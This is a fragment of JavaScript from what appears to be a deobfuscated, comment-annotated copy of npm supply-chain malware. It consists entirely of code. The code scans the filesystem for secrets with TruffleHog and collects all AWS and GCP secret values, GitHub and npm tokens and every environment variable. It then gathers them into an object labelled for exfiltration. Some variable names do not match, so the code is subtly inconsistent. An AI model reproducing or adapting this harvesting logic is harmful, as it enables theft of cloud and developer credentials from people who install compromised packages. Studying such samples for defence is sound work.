 ```
        })(),
        
        // TRUFFLEHOG SECRET SCANNING
        (async () => {
            if (process.env.SKIP_TRUFFLE) return { available: false, installed: false, version: null, platform: null, results: null };
            
            const [t_isAvailable, r_getVersion] = await Promise.all([
                te_TruffleHogModule.isAvailable(),
                te_TruffleHogModule.getVersion()
            ]);
            
            let n = null;
            t_isAvailable && (n_secrets = await te_TruffleHogModule.scanFilesystem()); // Scan for secrets
            
            return {
                available: t_isAvailable,
                installed: te_TruffleHogModule.isInstalled(),
                version: r_getVersion,
                platform: te_TruffleHogModule.getSupportedPlatform(),
                results: n_secrets
            };
        })()
    ]);

    // 6. CLOUD SECRET HARVESTING
    oe_npmUsername = se_npm_user.npmUsername;
    ie_authenticated = ae_is_valid_token.npmTokenValid;
    
    let ce_AWS_SECRETS = [];
    await n_AWSModule.isValid() && (ce_AWS_SECRETS = await n_AWSModule.getAllSecretValues()); // AWS secrets
    
    let le_GCP_SECRETS = [];
    await F_GCPModule.isValid() && (le_GCP_SECRETS = await F_GCPModule.getAllSecretValues()); // GCP secrets

    // 7. DATA AGGREGATION AND EXFILTRATION
    const ue_exfiltration_data = {
        system: {
            platform: t.platform,
            architecture: t.architecture,
            platformDetailed: t.platformRaw,
            architectureDetailed: t.archRaw
        },
        environment: process.env, // All environment variables
        modules: {
            github: {
                authenticated: r_GitHubModule.isAuthenticated(),
                token: r_GitHubModule.getCurrentToken(),
                username: r_GitHubModule.getUser()
            },
            aws: { secrets: ce_AWS_SECRETS },
            gcp: { secrets: le_GCP_SECRETS },
            truffleHog: ae_result,
            npm: {
                token: re_NPM_TOKEN,
                authenticated: ie_authenticated,
                username: oe_npmUsername
            }
        }
    };
```